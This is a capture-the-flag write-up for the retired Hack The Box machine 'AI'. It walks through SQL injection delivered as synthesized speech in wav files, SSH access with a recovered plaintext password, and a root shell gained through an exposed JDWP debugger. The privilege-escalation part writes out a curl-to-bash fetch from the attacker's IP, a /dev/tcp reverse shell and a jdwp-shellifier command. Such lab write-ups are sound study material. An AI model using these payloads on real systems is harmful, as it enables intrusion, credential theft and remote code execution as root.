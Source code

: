 # AI

This is the write-up for the box AI that got retired at the 25th January 2020.
My IP address was 10.10.14.9 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.163    ai.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/ai.nmap 10.10.10.163
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 6d:16:f4:32:eb:46:ca:37:04:d2:a5:aa:74:ed:ab:fc (RSA)
|   256 78:29:78:d9:f5:43:d1:cf:a0:03:55:b1:da:9e:51:b6 (ECDSA)
|_  256 85:2e:7d:66:30:a6:6e:30:04:82:c1:ae:ba:a4:99:bd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Hello AI!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web pages homepage is on _index.php_ and it shows **Artificial Intelligence**.
On the left side is a menu and the _"About page"_ says the following:
```
We are working on search engine using voice recognition from audio files using Artificial intelligence.
Our developers working 24/7 to make it happen and we progressed well with audio conversion.
```

This AI can be found on the menu that forwards to _ai.php_ and allows to upload and process _wav_ files:

![Upload wav file](ai_web-1.png)

After uploading a PHP file, it seems to not get blocked, but does not show any output:
```
Our understanding of your input is :
Query result :
```

Lets search for hidden directories and PHP files with **Gobuster**:
```
gobuster -u http://10.10.10.163 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

It finds the following directories and PHP files:
- _/uploads_ (403 Forbidden)
- _/db.php_
  - Blank page
- _/intelligence.php_
  - Shows how the Speech Recognition API processes user input:

![Speech Recognition API process](ai_web-2.png)

These look like aliases for words and as it expects audio _wav_ files, it could be possible to execute code by sending words via a **Text-to-Speech** program.

The package **Festival** has a command **text2wave** that I will use for this:
```
apt install festival

echo "hello" | text2wave -o hello.wav
```

This wave file can be listened to with any audio program and it says _"hello"_.
After uploading it to the AI, it understood it and shows the output of it:
```
Our understanding of your input is : hello
Query result :
```

Testing one of the queries:
```
echo "Say hi python" | text2wave -o test1.wav
```
```
Our understanding of your input is : say hi python
Query result : print("hi")
```

Testing special characters like single quotes:
```
echo "open single quote" | text2wave -o sqli.wav
```
```
Our understanding of your input is : '
Query result : You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1
```

It processed the single quote and shows a SQL error, so lets use that for **SQL Injection**.

### SQL Injection with Wave File

Testing for **Union SQL Injection**:
```
echo "open single quote, union select, version open parenthesis close parenthesis hyphen hyphen, space hyphen" | text2wave -o sqli.wav
```
```
Our understanding of your input is : 'you can select version()- - -
Query result : You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'you can select version()- - -'' at line 1
```

It did not fully understand the _union_ statement, but the queries showed that it can be translated with _"join"_.
Also the comment for databases was not understood, but it can be translated with _"Comment Database"_.
```
echo "open single quote, join select, version open parenthesis close parenthesis Comment Database" | text2wave -o sqli.wav
```
```
Our understanding of your input is : 'union select version()-- -
Query result : 5.7.27-0ubuntu0.18.04.1
```

It understood the query and displays the version of the database.

Enumerating usernames by guessing tables:
```
echo "open single quote, join, select, username from users Comment Database" | text2wave -o sqli.wav
```
```
Our understanding of your input is : 'union select username from users -- -
Query result : alexa
```

Getting the password of _alexa_:
```
echo "open single quote, join, select, password from users Comment Database" | text2wave -o sqli.wav
```
```
Our understanding of your input is : 'union select password from users -- -
Query result : H,Sq9t6}a<)?q93_
```

It looks like a plaintext password and not a hash and the credentials work on SSH:
```
ssh alexa@10.10.10.163
```

## Privilege Escalation

To get an attack surface, it is recommended to run any **Linux Enumeration Script**:
```
curl 10.10.14.9/linpeas.sh | bash
```

On localhost port 8000, 8005, 8009 and 8080 runs **JDWP (Java Debug Wire Protocol)** and **Tomcat** as root.

Port forwarding the ports to get access to the services:
```
ssh -L 8009:127.0.0.1:8009 -L 8080:127.0.0.1:8080 -L 8005:127.0.0.1:8005 alexa@10.10.10.163
```

Forwarding port 8000 with the [SSH control sequences](https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/) as it did not work with SSH directly:
```
ssh> -L8000:127.0.0.1:8000

Forwarding port.
```

Now it is possible to connect to **JDWP** from our local client:
```
jdb -attach 8000
```

The command `classes` shows all available classes and we want to execute _java.lang.Runtime exec_.
First it has to be attached to a running thread and these can be found with the `threads` command and `trace go method` command.

Setting a breakpoint at any thread:
```
stop in java.lang.String.indexOf(int)
```

Testing if it works by creating a file:
```
print new java.lang.Runtime().exec("/bin/touch /tmp/Test.txt")
```

This creates the file with root as the owner, but as it takes many tries and is inconsistent, it is easier to exploit it with the tool [jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier).

Creating a bash file on the box that executes a reverse shell connection:
```
bash -c 'bash -i >& /dev/tcp/10.10.14.9/9001 0>&1'
```
```
chmod +x shell.sh
```

Executing _shell.sh_ with **jdwp-shellifier**:
```
python jdwp-shellifier.py -t 127.0.0.1 --break-on "java.lang.String.indexOf" --cmd "bash /tmp/shell.sh"
```

After executing, the listener on my IP and port 9001 starts a reverse shell session as root!
